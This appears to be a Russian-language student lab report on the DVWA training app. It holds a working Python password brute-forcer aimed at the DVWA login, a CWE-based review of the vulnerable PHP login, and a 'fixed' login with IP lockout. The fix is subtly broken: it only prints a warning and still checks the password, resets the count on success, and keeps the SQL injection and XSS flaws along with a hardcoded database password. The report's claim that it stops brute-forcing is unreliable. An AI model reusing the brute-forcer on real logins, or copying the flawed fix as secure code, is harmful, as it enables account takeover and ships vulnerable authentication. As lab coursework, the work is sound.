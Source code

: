 # Практическая работа №3
<h3> Задание №1. Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)</h3>

<p>Выполнено на языке программирования Python с использованием библиотеки requests. В качестве источника паролей был выбран готовый словарь с наиболее часто встречающимися паролями(common-passwords.txt). Разработанный алгоритм читает все пароли из файла и каждый из них поочередно подставляет в тело HTTP GET запроса. При успешном входе пользователь видит надпись "Welcome to the password protected area". Она и является определяющим фактором для разработанного решения</p>

    passwords = []

    with open("common-passwords.txt", "r", encoding='utf-8') as file:
        for password in file.readlines():
            if '\n' in password:
                passwords.append(password[:-1])
                continue

            passwords.append(password)
        
    cookies = {'PHPSESSID':'dha64hulcvldr08koooh0a8iqt', 'security': 'low'}

    for password in passwords:
        response = requests.get(url=f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={password}&Login=Login#', cookies=cookies)
        if 'Welcome to the password protected area' in response.text:
            print(f'Password: {password}')
            break

<h3>Задание №2. Проанализировать код и сделать кодревью, указав слабые места. 
Слабость уязвимого кода необходимо указать с использованием метрики 
CWE (база данных cwe.mitre.org)</h3>

    <?php
        if( isset( $_GET[ 'Login' ] ) ) {
        // Get username
        $user = $_GET[ 'username' ];
        // Get password
        $pass = $_GET[ 'password' ];
        $pass = md5( $pass );
        // Check the database
        $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . 
            ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = 
            mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
        if( $result && mysqli_num_rows( $result ) == 1 ) {
                // Get users details
                $row    = mysqli_fetch_assoc( $result );
                $avatar = $row["avatar"];
                // Login successful
                $html .= "<p>Welcome to the password protected area {$user}</p>";
                $html .= "<img src=\"{$avatar}\" />";
        }
        else {
                // Login failed
                $html .= "<pre><br />Username and/or password incorrect.</pre>";
        }
        ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }?>

<ol>
    <li>CWE-89. Возможно использование SQL инъекции при определении запроса $query. Как вариант решения проблемы - использование параметризированных запросов</li>
    <li>CWE-79. Не защищенный вывод. В выражениях вида $html .= "какой-то текст и разметка..." возникает уязвимость к XSS атакам - злоумыщленник может внедрить свой JavaScript код</li>
    <li>CWE-522. Пароли хранятся в недостаточно надежном виде. Лучше для каждого пользователя определять уникальное значение(соль), добавлять его к паролю и хэшировать. Таким образом, даже для пользователей с одинаковыми паролями хэши будут разными</li>
    <li>CWE-20. Отсутствие валидации ввода. Необходимо обрабатывать введенные данные перед их использованием</li>
    <li>CWE-307. Отсутствие защиты от неудачных попыток входа. Предоставляет возможность, например, перебора паролей</li>

</ol>

<h3>Задание №3. Разработать свою систему авторизации на любом языке, 
исключающий взможность подбора паролей разработнным 
переборщиком паролей в задании 1. Возможно исправление авторизации 
из dvwa.local. Требование - Система авторизации должна использовать запросы GET с 
параметрами, аналогичными из задания bruteforce dvwa
</h3>
<p>Для решения данной задачи в базе данных создана таблица "visits", содержащая в себе количество попыток входа для конкретного IP адреса, исходя из соображений, что после трех неуспешных попыток входа IP адрес не имеет доступ к ресурсу. При успешном же входе количество попыток обнуляется(если оно не привысило 3шт.), в противном же случае увеличивается</p>
<p>Для начала создадим соответствующую таблицу</p>

<pre>CREATE TABLE visits(
    id INT AUTO_INCREMENT,
    ip VARCHAR(16),
    count INT,
    PRIMARY KEY(id)
)
</pre>
<p>Теперь реализуем блокировку</p>
<p>

    if( isset( $_GET[ 'Login' ] ) ) {

	$user = $_GET[ 'username' ];
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	
	$ip = $_SERVER["REMOTE_ADDR"];
	
	$visits_q = "SELECT count FROM visits WHERE ip = '$ip';";
	$connection = new mysqli("localhost", "dvwa", "p@ssw0rd", "dvwa");
	
	$visits_count = 0;

	if($qres = $connection->query($visits_q)){
		$rows_count = $qres->num_rows;
		if ($rows_count == 0) {
			$insert_q = "INSERT INTO visits(ip, count) VALUES('$ip', 1);";
			$connection->query($insert_q);
			$visits_count = 1;
		}
		else {
			foreach($qres as $row){
				$visits_count = $row["count"];
				break;
			}
		}
	}

	if ($visits_count > 3) {
		$html .= "<p>Too many requests!</p>";
	}

	if( $result && mysqli_num_rows( $result ) == 1 ) {
		// Get users details
		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];

		// Login successful
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "<img src=\"{$avatar}\" />";
		$visits_count = 0;
	}
	else {
		// Login failed
		$html .= "<pre><br />Username and/or password incorrect.</pre>";
		$visits_count = $visits_count + 1;
	}

	
	$update_q = "UPDATE visits SET count = $visits_count WHERE ip = '$ip'";
	$connection->query($update_q);

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }
</p>